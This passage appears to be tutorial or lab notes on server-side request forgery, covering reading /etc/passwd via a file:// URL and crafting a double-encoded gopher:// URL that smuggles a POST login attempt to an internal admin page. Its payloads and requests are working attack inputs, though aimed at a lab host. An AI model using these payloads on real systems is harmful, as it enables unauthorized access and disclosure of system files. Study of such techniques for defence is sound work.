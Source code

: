 
### Local File Inclusion (LFI)

we can manipulate the URL scheme to provoke further unexpected behavior. Since the URL scheme is part of the URL supplied to the web application, let us attempt to read local files from the file system using the file:// URL scheme. We can achieve this by supplying the URL **file:///etc/passwd**.
We can use this to read arbitrary files on the filesystem, including the web application's source code.

### The gopher protocol

We can use SSRF to access restricted internal endpoints. However, we are restricted to GET requests as **there is no way to send a POST request with the http:// URL scheme**.

Instead, we can use the **gopher URL scheme** to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.

Assuming we can try to login with common weak passwords against a previous identified endpoint:

```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

We need to **URL-encode all special characters** to construct a valid gopher URL from this. In particular, spaces (%20) and newlines (%0D%0A) must be URL-encoded. Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:
- gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin

Our specified bytes are sent to the target when the web application processes this URL. Since we carefully chose the bytes to represent a valid POST request, the internal web server accepts our POST request and responds accordingly. However, since we are sending our URL within the HTTP POST parameter dateserver, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it. Otherwise, we will get a Malformed URL error. After URL encoding the entire gopher URL one more time, we can finally send the request.

```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

We can automate this using **Gopherus**.

